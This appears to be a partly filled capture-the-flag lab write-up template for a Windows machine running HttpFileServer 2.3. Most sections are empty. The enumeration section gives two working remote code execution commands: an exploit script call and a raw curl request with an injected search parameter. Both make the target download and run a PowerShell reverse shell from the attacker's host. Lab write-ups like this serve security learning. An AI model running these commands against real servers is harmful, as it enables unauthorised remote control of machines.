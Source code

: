 Name & IP Address of Machine:
> NAME : `<IP>`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
- [Tools Used.](#tools-used)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] 80(httpfileserver 2.3)
Vulnerable to rce. The old windows has SysNative(64-bit) or SysWow64(32-bit) architecture folder instead of system32 that is where they put their system executables.
```bash
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28:8000/rev_tcp.ps1')"
```
OR
```bash 
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.10.8' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1' \
    -b $'HFS_SID=0.132836493197829' \
    $'http://10.10.10.8/?search=%00{.exec|c%3a\\windows\\SysNative\\WindowsPowershell\\v1.0\\powershell.exe+IEX(New-Object+Net.Webclient).downloadString(\'http%3a//10.10.14.28%3a8000/Invoke-PowershellTcp.ps1\').}'
```

## FootHold

## Lateral Movement

## Privilege Escalation




<!-- ## Thank You 
🕉️  -->


## Tools Used.
- [ ] Nishang Shell
- [ ] Powershell
- [ ] Empire
- [ ] sherlok